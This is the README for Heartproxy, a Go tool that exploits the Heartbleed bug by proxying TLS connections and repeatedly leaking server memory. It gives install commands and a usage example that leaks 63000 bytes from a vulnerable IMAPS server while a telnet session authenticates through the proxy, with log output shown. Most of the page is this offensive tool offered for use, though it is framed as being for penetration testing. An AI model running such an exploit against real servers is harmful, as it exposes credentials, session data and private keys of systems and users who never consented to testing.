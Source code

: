 Heartproxy
==========
Heartbleed TCP to SSL proxy that constantly pulls leaked memory.

Use for pentesting to dump live memory chunks during an ongoing connection.

Based on work of Filippo Valsorda at https://github.com/FiloSottile/Heartbleed

Install
=======

```
go get github.com/mver/Heartproxy
go install github.com/mver/Heartproxy
```

Synopsis
========
Leaking 63000 Bytes from a vulnerable IMAPS server: 

``` 
[foo@bar/term1]$ Heartproxy 8080 mail.vulnerable.com:993 63000
2014/04/10 14:25:18 Using leaksize 63000
Listening on 8080
2014/04/10 14:25:25 New connection from: localhost
2014/04/10 14:25:25 Connected to target...
2014/04/10 14:25:25 starting up heartbeat collector
2014/04/10 14:25:25 starting up clientToTarget collector
2014/04/10 14:25:25 starting up targetToClient collector
...
```

```
[foo@bar/term2]$ telnet localhost 8080
Trying 127.0.0.1...
Connected to localhost.
Escape character is '^]'.
AUTH ...
```
